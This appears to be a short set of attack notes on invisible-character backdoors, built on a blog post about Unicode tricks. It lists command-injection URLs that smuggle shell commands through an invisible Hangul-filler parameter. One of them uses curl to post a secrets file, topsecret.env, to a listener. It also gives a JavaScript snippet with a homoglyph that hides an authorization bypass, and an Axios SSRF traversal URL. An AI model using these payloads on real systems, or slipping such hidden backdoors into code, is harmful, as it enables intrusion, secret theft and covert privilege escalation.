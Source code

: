 https://certitude.consulting/blog/en/invisible-backdoor/


http://172.28.150.242:8080/network_health?%E3%85%A4=touch%20/tmp/umut.txt


## leaking the file content

curl --data "@topsecret.env" http://127.0.0.1:1337/

http://172.28.150.242:8080/network_health?%E3%85%A4=curl%20--data%20%22@topsecret.env%22%20http://127.0.0.1:1337/



```

const [ ENV_PROD, ENV_DEV ] = [ 'PRODUCTION', 'DEVELOPMENT'];
/* … */
const environment = 'PRODUCTION';
/* … */

function isUserAdmin(user) {
    if(environmentǃ=ENV_PROD){
        // bypass authZ checks in DEV
        return true;
    }
    return false;
}
```


## Axios bypass

http://localhost/?url=http:/mdisec.com:1337/../admin

https://github.com/axios/axios/issues/6295
